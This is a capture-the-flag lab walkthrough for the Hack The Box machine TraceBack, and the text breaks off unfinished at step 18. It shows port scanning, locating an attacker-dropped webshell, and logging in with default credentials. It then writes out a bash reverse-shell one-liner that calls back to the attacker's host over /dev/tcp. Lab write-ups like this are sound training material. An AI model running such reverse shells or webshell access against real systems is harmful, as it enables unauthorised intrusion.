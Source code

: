# TraceBack
> Write-up author: jon-brandy


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5389983-7994-42b7-87d6-c39c262b8597)


## Lessons Learned:
1. Enumeration.
2. Utilizing dropped backdoor.
3. Writing Lua.
4. Manipulating SSH Motd.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC traceback.htb --min-rate 1000 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-25 19:53 PDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.67 seconds
```

1. Based from the nmap results above, seems the machine runs web application at port 80 and opens ssh login at port 22.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0ed872db-def1-40fd-b05b-f01b2f8d6548)


2. Seems the webapp is already compromised and the attacker left a backdoor which is accessible he said.
3. Hence let's execute directory listing using **dirsearch**.
4. However, dirsearch resulting to none. It means the webshell filename is not common.
5. Reviewing the message shown, resulting to no clue other than searching the `Xh4H` name online.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7d67e1f-c1d5-4919-b0f7-3617db19484b)



6. Traversing on the internet resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f5d980a2-9a97-4b54-a70e-a82e3600451a)


7. Adding **webshell** to our search query, resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/75d799d5-5024-41b6-bf40-3d71becb4ddc)


8. The first result, should be our interest.

> GITHUB

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1384da27-8377-4203-b854-bb513772c9e8)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e6c49331-c7e6-4672-9fe2-3b2ca7ab052a)


9. Enumerating each webshell file, the backdoor dropped is --> `smevk.php`.

> Enter creds --> `admin:admin` (shown at the source code).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/363c04a5-96e9-4972-b799-ee967df3f46e)


10. Indeed it seems the best backdoor 🤲🏻.
11. Long story short, after traversing to `/home/webadmin`, found a note from sysadmin team.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/051e6bac-d543-485c-8429-a6da4faa6d3b)

12. Reviewing the bash history file, found that a binary named **luvit** seems inside the sudo permission.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd1ac823-a2ee-4330-ad17-afd3a7a4c729)


13. This could be used for our privesc method.
14. Great! Anyway let's get more comfy enumeration by getting a reverse shell.
15. I used simple bash reverse shell:

```txt
bash -c 'bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'
```

16. Set up a listener at port **1337** than enter it on the **execute** box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef6adcff-da39-4c24-bc8b-1fe47e9bbeea)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2a27e9b7-5e5d-4ad5-9b8c-70f7baa8668c)


17. Remembering the **luvit** binary is inside the **sysadmin** home directory, we need to traverse there, but currently we are denied.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7ab4b96-ae8f-45df-8825-c177f4ff3123)


18. 
